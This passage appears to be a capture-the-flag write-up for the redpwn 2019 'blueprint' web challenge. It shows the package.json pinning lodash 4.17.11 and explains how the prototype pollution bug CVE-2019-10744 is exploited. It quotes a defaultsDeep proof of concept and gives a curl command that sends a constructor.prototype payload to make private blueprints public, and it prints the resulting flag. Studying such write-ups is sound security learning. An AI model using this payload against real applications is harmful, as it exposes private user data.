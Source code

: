 ```js
    })
  } else {
    res.end(notFoundPage)
  }
}).listen(80, () => {
  console.log('listening on port 80')
})
```

Package.json:

```json
{
  "name": "blueprint",
  "version": "0.0.0",
  "private": true,
  "dependencies": {
    "lodash": "4.17.11",
    "mustache": "^3.0.1",
    "raw-body": "^2.4.1"
  }
}
```
{% endraw %}
So here, the flag is put in one of our blueprints, but we don't know its ID, which was randomly generated and normally unguessable. We can publish public blueprints, that are displayed in the front page, or private ones, that we can access if we know their URL. The idea is then to find a way to make public the private ones.
The important thing to notice here is that `lodash` module is outdated and is [vulnerable to prototype poisoning](https://nvd.nist.gov/vuln/detail/CVE-2019-10744). A good explanation can be found [here](https://snyk.io/vuln/SNYK-JS-LODASH-450202), but in a nutshell, the idea is to override the constructor of an object and trick the routine `defaultDeep` so as to modify the default properties of an object.

The PoC given in the article is as follows:

```js
const mergeFn = require('lodash').defaultsDeep;
const payload = '{"constructor": {"prototype": {"a0": true}}}'

function check() {
    mergeFn({}, JSON.parse(payload));
    if (({})[`a0`] === true) {
        console.log(`Vulnerable to Prototype Pollution via ${payload}`);
    }
  }

check();
```

Then, in our case, we only have to set `public` to `true`:

```bash
$ curl -H "Cookie: user_id= ... " --data '{"constructor": {"prototype": {"public": "true"}}}' http://chall2.2019.redpwn.net:8002/make
```

Browsing to the main page displays now the flag: **flag{8lu3pr1nTs_aRe_tHe_hiGh3s1_quA11tY_pr0t()s}**

EOF
